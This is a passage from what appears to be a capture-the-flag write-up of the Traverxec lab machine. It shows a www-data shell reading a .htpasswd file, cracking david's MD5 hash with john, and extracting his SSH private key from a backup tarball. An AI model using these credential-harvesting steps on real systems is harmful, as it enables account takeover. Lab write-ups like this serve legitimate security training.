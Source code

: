 /var/nostromo/htdocs/empty.html
...
</pre>

First I check `.htpasswd`, which gets me a password hash for david.
<pre>
www-data@traverxec $ cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
</pre>

Since this is a weak MD5 hash, I let john the ripper run it through rockyou,
it comes back with `Nowonly4me` as the password. We could try these credentials,
but lets look elsewhere first.

I take a look at `nhttpd.conf` and it contains the following interesting section.
<pre>
www-data@traverxec $ cat /var/nostromo/conf/nhttpd.conf
...
\# HOMEDIRS [OPTIONAL]<br>
homedirs            /home
homedirs_public     public_www
...
</pre>

This tells nostromo to serve a directory from each user's home called
`public_www` under `/~username`. Since we know we have a user called `david`
on the box, we open `http://10.10.10.165/~david/` in Firefox, and bingo we
found `david`'s private area. After that we check `/home/david/public_www`
as `find` must have missed it if `/home/david` itself is unreadable.
<pre>
www-data@traverxec $ find /home/david/public_www
/home/david/public_www
/home/david/public_www/index.html
/home/david/public_www/protected-file-area
<span style="color:red">/home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz</span>
/home/david/public_www/protected-file-area/.htaccess
www-data@traverxec $ tar tf /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
</pre>

As you can see above there are some very bad news for david as we found his
ssh private key. We copy the tarball to a temporary location, extract it, and
cat our id_rsa file to stdout.
<pre>
www-data@traverxec $ cp /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz /tmp/
www-data@traverxec $ cd /tmp; tar xf backup-ssh-identity-files.tgz
www-data@traverxec $ cat home/david/.ssh/id_rsa; rm -rf backup-ssh-identity-files.tgz home/
</pre>
